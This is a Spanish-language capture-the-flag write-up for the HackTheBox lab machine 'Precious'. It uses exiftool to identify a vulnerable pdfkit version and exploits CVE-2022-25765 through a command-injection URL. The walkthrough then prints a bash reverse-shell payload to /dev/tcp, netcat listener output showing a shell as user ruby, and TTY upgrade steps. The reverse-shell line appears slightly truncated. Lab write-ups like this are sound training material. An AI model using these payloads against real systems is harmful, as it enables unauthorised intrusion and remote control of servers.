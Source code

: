 No te olvides de agregar el dominio a tu archivo de hosts para poder acceder a la web.

{% highlight bash %}
10.10.11.189 precious.htb
{% endhighlight %}

<h2>INTRUSIÓN</h2>

Si analizamos el PDF que nos da la web con `exiftool` veremos que usa la librería pdfkit para generar el documento.

{% highlight bash %}
❯ exiftool r24pt939pmue2a5sn5x1lsn5n67y3lda.pdf
ExifTool Version Number         : 12.60
File Name                       : r24pt939pmue2a5sn5x1lsn5n67y3lda.pdf
Directory                       : .
File Size                       : 17 kB
File Modification Date/Time     : 2023:05:17 13:29:17-04:00
File Access Date/Time           : 2023:05:17 13:29:18-04:00
File Inode Change Date/Time     : 2023:05:17 13:29:31-04:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
{% endhighlight %}

Esta versión es vulnerable a una inyección de comandos (CVE-2022-25765), podemos colocar algo como esto en la URL que le pasamos al sitio:

{% highlight bash %}
http://10.10.16.8:8000/?thing=#{'%20`whoami`'}
{% endhighlight %}

Vamos a intentar colocarle el típico one liner de bash

{% highlight bash %}
http://10.10.16.8:8000/?thing=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.16.8/443 0>&"`'}
{% endhighlight %}

{% highlight bash %}
❯ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.189 60572
bash: cannot set terminal process group (680): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
ruby@precious:/var/www/pdfapp$ ^Z
[1]  + 12712 suspended  nc -lvnp 443
❯ stty raw -echo; fg
[1]  + 12712 continued  nc -lvnp 443
                                    reset xterm

ruby@precious:/var/www/pdfapp$ export TERM=xterm-256color
ruby@precious:/var/www/pdfapp$ source /etc/skel/.bashrc 
{% endhighlight %}
